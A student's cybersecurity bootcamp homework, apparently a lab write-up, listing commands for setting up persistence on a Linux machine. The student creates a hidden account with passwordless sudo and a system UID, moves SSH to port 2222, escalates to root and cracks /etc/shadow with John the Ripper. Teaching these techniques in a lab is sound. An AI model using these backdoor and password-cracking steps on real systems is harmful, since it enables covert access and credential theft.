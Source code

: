 ## Rob Myers Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed after creating user sysd`   
                     or
    - `if logged in as sysd, then enter passwd`                 
                     or
    - `if logged in as sysadmin, then enter passwd sysd`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`
         
      ![picture](IMAGE/sysdID.PNG)    
                                                      
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`
       
      ![picture](IMAGE/sysdID.PNG)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL      

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL  
         
      ![description](IMAGE/su_acc_nopass.PNG) 

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    ![description](IMAGE/step_2.PNG)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

     ![description](IMAGE/step3_1.PNG)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`
 
    ![description](IMAGE/passwd8.PNG)

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

